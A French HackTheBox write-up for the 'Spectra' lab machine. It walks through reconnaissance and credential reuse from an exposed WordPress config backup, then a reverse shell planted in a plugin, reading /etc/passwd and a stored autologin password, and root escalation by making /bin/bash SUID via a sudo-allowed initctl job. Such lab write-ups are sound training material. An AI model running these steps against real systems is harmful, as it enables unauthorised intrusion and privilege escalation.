

<br/>

<p align="center">
 <h2 align="center">Spectra</h2>
</p>


</br>

<p align="left">
 <h3 align="left">Table of Contents</h4>
</p>
<hr size=1px>


<ol type=I>
      <li><a href="#box">Box</a></li>
      <li><a href="#profile">Profile</a></li>
      <li><a href="#Information Gathering">Information Gathering</a></li>
      <ol>
          <li><a href="#1.scan port">Scan Port</a></li>
          <li><a href="#2.web">Web</a></li>
      </ol>
      <li><a href="#exploit">Exploit</a></li>
	  <li><a href="#privilege escalation">Privilege Escalation</a></li>
      <ol>
          <li><a href="#1.user">User</a></li>
          <li><a href="#2.root">Root</a></li>
      </ol>


<p align="left">
 <h4 align="left">Box</h4>
</p>
<hr size=1px>
<a href="https://app.hackthebox.eu/machines/317" alt="Box">
</a>


<p align="left">
 <h4 align="left">Profile</h4>
</p>
<hr size=1px>

<a href="https://www.hackthebox.eu/home/users/profile/308632"></a>


<p align="left">
 <h4 align="left">Information Gathering</h4>
</p>
<hr size=1px>

Débutons par un scan nmap.

<p align= "left">
 <h6 align= "left"><U>1.Scan Port</U></h6>
</p>

> sudo nmap -sSV -sC -oN nmap/initial 10.10.10.229

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`
- `-oN : Sauvegarde l'output de namp dans un fichier.`

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 17:56 CEST
Nmap scan report for spectra.htb (10.10.10.229)
Host is up (0.048s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.36 seconds
```

Plusieurs ports sont ouverts, le port 22(ssh), le 80(http) et le 3306(mysql).

Allons voir le serveur web.


<p align= "left">
 <h6 align= "left"><U>2.Web</U></h6>
</p>

Une page web avec deux liens apparaît, regardons vers ou nous redirige ses deux liens.


Software Issue tracker:

Ce lien nous redirige vers une page web basé sur wordpress.


Énumérons cette page afin de voir ce que nous pouvons trouver.

> ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.229/main/FUZZ

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.229/main/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

wp-admin                [Status: 301, Size: 169, Words: 5, Lines: 8]
wp-content              [Status: 301, Size: 169, Words: 5, Lines: 8]
wp-includes             [Status: 301, Size: 169, Words: 5, Lines: 8]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1]
:: Progress: [4681/4681] :: Job [1/1] :: 456 req/sec :: Duration: [0:00:14] :: Errors: 0 ::

```

On retrouve une page wp-admin, sûrement la page de connexion.

Allons voir ça de plus près.


Comme pensés, nous sommes bien face à une page de connexion wordpress.

Gardons ça de coter.


Test:

Le lien `test` nous redirige vers une page d'erreur, si on regarde l'URL on voit que nous sommes dans un sous-dossier, essayons d'accéder au dossier précédent.


Nous pouvons accéder à ce dossier sans problème, de plus nous avons la liste de tous les fichier/repertoire qu'il contient.

Regardons de plus près de fichiers `wp-config.php.save`.


À première vue rien d'intéressant, vérifions le code source.


Dans le code source, nous retrouvons des informations sur un possible mot de passe stocké dans la base de données.

```
/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
```

Retournons maintenant sur la page de connexion de wordpress.

En tenant une connexion avec l'utilisateur `Admin` on peut voir que le message d'erreur nous dis que le nom d'utilisateur n'est pas reconnu.


Nous pouvons donc tenter d'autre nom d'utilisateur jusqu'à ce que le message d'erreur change afin de savoir qu'elle utilisateur est existe.

En essayant quelques utilisateurs connus, on trouve que l'utilisateur Administrator existe.


En utilisant le mot de passe trouvé dans le fichier `wp-config.php.save` nous arrivons à nous connecter au panel administrateur du wordpress.



Nous devons maintenant réussir à nous donner un accès à la machine.


<p align="left">
 <h4 align="left">Exploit</h4>
</p>
<hr size=1px>


En allant dans la section plugins, nous pouvons voir que les plugins sont désactivé.


Nous pouvons aussi les éditer.

Allons voir ce qu'ils contiennent.


Le plugins `askinet` possède du code php, nous pouvons modifier se code afin d'implanter un reverse shell.

Pour le revershell shell, j'utilise celui du github de pentestmonkey.


On attribue l'ip de la machine attaquante, ainsi que le port que l'on va ouvrir pour recevoir la connexion de la cible.


Maintenant, éditons le fichier avec se reverse shell, et sauvegarde la configuration.

Lancer l'écoute sur le port renseigné dans le reverse shell pour ma part le port `4444`.

> nc -lnvp 4444

```
Connection from 10.10.10.229:44302
$ whoami
nginx
```

Nous voilà sur la machine cible.


<p align="left">
 <h4 align="left">Privilege Escalation</h4>
</p>
<hr size=1px>


Avant de commencer la recherche d'escalade de privilège, nous allons nous créer un meilleur shell.

Regardons si la machine possède python3.

> which python3 
>

```
/usr/bin/python3
```


Parfait, la machine possède python3, nous pouvons donc upgrade notre shell.

> python3 -c 'import pty;pty.spawn("/bin/bash")'
>


Cette commande va nous permettre de pouvoir clear notre console(CTRL+L).

> export TERM=xterm
>


Quitter le terminal actuel avec le raccourci CTRL+Z


Puis exécuter la commande suivante.

> ```
> stty raw -echo; fg
> ```

Cette dernière commande nous permettra d'avoir l'autocomplétion des commande ainsi que la tabulation et d'autres.


<p align= "left">
 <h6 align= "left"><U>1.User</U></h6>
</p>
En fouillant les fichiers de configuration avec la commande `find` on tombe sur un script de connexion automatique dans le répertoire `opt`.

> find / -name *conf* 2>/dev/null | grep opt

```
find / -name *conf* 2>/dev/null | grep opt
[...]
/mnt/stateful_partition/dev_image/include/boost/program_options/detail/config_file.hpp
/opt/autologin.conf.orig
/opt/google/chrome/resources/chromeos/camera/images/camera_intent_result_confirm.svg
[...]

```

En faisant un `cat` de se fichier, on peut voir qu'il stocke un mot de passe qui est situé dans `/etc/autologin/passwd`.


> cat /opt/autologin.conf.orig 

```
nginx@spectra /home $ cat /opt/autologin.conf.orig 
\# Copyright 2016 The Chromium OS Authors. All rights reserved. 
\# Use of this source code is governed by a BSD-style license that can be 
\# found in the LICENSE file. 
description  "Automatic login at boot" 
author     "chromium-os-dev@chromium.org" 
\# After boot-complete starts, the login prompt is visible and is accepting 
\# input. 
start on started boot-complete 
script 
  passwd= 
  \# Read password from file. The file may optionally end with a newline. 
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do 
   if [ -e "${dir}/passwd" ]; then 
    passwd="$(cat "${dir}/passwd")" 
    break 
   fi 
  done 
  if [ -z "${passwd}" ]; then 
   exit 0 
  fi 
  \# Inject keys into the login prompt. 
  \# 
  \# For this to work, you must have already created an account on the device. 
  \# Otherwise, no login prompt appears at boot and the injected keys do the 
  \# wrong thing. 
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter 
end scriptnginx@spectra /home $ cat /etc/autologin/passwd 
```


> cat /etc/autologin/passwd  

```
SummerHereWeCome!!
```

Un utilisateur doit sûrement utiliser ce mot de passe pour se connecter.

Regardons la liste d'utilisateurs

> cat /etc/passwd
>

```
nginx@spectra /home $ cat /etc/passwd
[...]
tcpdump:!:215:215:tcpdump --with-user:/dev/null:/bin/false
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```

Testons la connexion à l'utilisateur `katie`.

> ssh katie@10.10.10.229

```
katie@spectra ~ $ whoami 
katie
```

Nous voilà maintenant avec l'utilisateur `katie`.

Nous avons aussi accès au flag `user.txt`.

> cat user.txt

```
katie@spectra ~ $ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


<p align= "left">
 <h6 align= "left"><U>2.Root</U></h6>
</p>
En faisant un `sudo -l` on peut voir que cet utilisateur possède les droits root sur le binaire `initctl`.

> sudo -l

```
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

Listons les services qui sont sur cette machine.

> sudo initctl list

```
katie@spectra ~ $ sudo initctl list

[...]
init-homedirs stop/waiting
install-completed start/running
journald start/running, process 553
log-rotate start/running, process 2152
neverware_daemon start/running, process 2004
neverware_fixhw stop/waiting
oobe_config_save stop/waiting
report-boot-complete stop/waiting
send-uptime-metrics stop/waiting
ui stop/waiting
ureadahead stop/waiting
usb_bouncer stop/waiting
test2 stop/waiting
```

On peut voir un service `test2` qui n'est pas en service, on pourrait injecter du code bash afin de mettre un SUID sur le binaire `/bin/bash` afin de se créer un shell en tant que root.

Commençons par éditer le fichier `test.conf`.

> nano /etc/init/test.conf

```
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

        chmod +s /bin/bash

end script
```

Lancer le service test.

> sudo /sbin/initctl start test

```
katie@spectra ~ $ sudo /sbin/initctl start test
test start/running, process 5180
```

Si l'on regarde les droits de `/bin/bash` on peut voir que le SUID est bien passé sur l'utilisateur root.

```
ls -l /bin/bash
-rwsr-sr-x 1 root root 551984 Dec 22 05:46 /bin/bash
```

> /bin/bash -p

```
katie@spectra ~ $ /bin/bash -p
bash-4.3# whoami
root
```

Nous pouvons maintenant cat le flag root.txt.

> cat root.txt

```
bash-4.3# cat root.txt 
XXXXXXXXXXXXXXXXXXXXXXX
```


Cela conclut donc la box <u>Spectra</u>  sur la plateforme <u>HackTheBox</u>
<u>Ethost.</u>